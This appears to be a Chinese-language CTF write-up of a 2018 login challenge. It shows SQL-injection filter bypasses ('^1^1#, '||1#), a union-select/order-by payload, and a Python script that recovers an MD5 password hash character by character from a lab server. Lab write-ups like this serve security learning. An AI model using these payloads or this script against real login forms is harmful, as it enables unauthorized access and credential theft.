 ```yaml
---
title: 2018ZJGSCTFwriteup
date: 2018-05-07 10:36:05
tags:
---
```

没人做那就只能自己写了。
<!--more-->
## [LOGIN](http://10.21.13.154:35353/)
### 1.进入网站后是一个登陆界面，先是随便输入用户名和密码，发现弹窗消息。

       ![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2kur9kayj30c8041jr8.jpg)

根据提示要拿到flag就必须要先找到username。开始先试了admin等一些常规的用户名发现都不行。那就思考后台php中的sql语句是怎么样的根据绕过sql语句来得到username。
``` sql
select * from admin where username='' and password=''
```
### 2.猜测后台中的语句应该是这样的，那就来构造绕过这个使用' or 1=1#使得where后面的结果为真
返回查询结果。输入测试后发现，or ，=，where等词被过滤了。

        ![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l3u0hu4j30bt03amwz.jpg)

然后就思考另外的方法来使得where后面的条件为真，可以使用这些方法，'^1^1#,'||1#来绕过这些得到两个重要的提示。

        ![image](http://ww4.sinaimg.cn/large/0069oIoUgy1fr2l88x3ihj30c503ha9w.jpg)

        ![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2l8p6bxkj30bx037glf.jpg) 
        
知道了password就是flag经过md5加密后的内容那就需要来猜测password的值了
### 3.基于上面有username返回所以是一个回显的注入。那就可以构造如下sql语句来猜测password的名
``` sql
yt_ia_a_handsome_boy' union select 1,2,0x80 order by 3 desc#
```
### 4.由上面提示可以知道password是一串经过md5加密后的16进制字符串利用union select插入一行，并在password
即第三列插入的是16进制的字符串，根据第三列的大小对每行数据进行排序。执行完sql语句，根据页面回显的数据一位一位来猜解password的内容。
显示结果如下：
当插入的16进制值大于password的值会返回如下内容

        ![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2ltl5hu9j30bi02ywea.jpg)
        
当插入的内容小于password的值会返回username的值

       ![image](http://ww1.sinaimg.cn/large/0069oIoUgy1fr2lv97wbrj30bq034glf.jpg)
       
### 5.根据上面测试的情况用python写脚本如下
``` python 
# coding:utf-8

import requests

def makeStr(begin,end):
    str=""
    for i in range(begin,end):
        str+=chr(i)
    return str
def getPassword():
    url="http://10.21.13.154:35353/index.php"
    testStr = makeStr(48,127)
    username = "yt_ia_a_handsome_boy' union distinct select 1,2,0x{hex} order by 3 desc#"
    flag = ""
    for  _  in range(32):
        for i in testStr:
            data = {"username":username.format(hex=(flag+i).encode('hex')),"password":'1'}
            res = requests.post(url,data)
            if "yt_ia_a_handsome_boy" not in res.text:
                flag= flag+chr(ord(i)-1)
                print flag
                break
            else:
                print "[*]",i
if __name__== '__main__':
    getPassword()
```
### 6.运行后得到password的值
![image](http://ww3.sinaimg.cn/large/0069oIoUgy1fr2lznt8voj30eo09zjre.jpg)
[MD5j解码](http://www.cmd5.com/)后得到flag

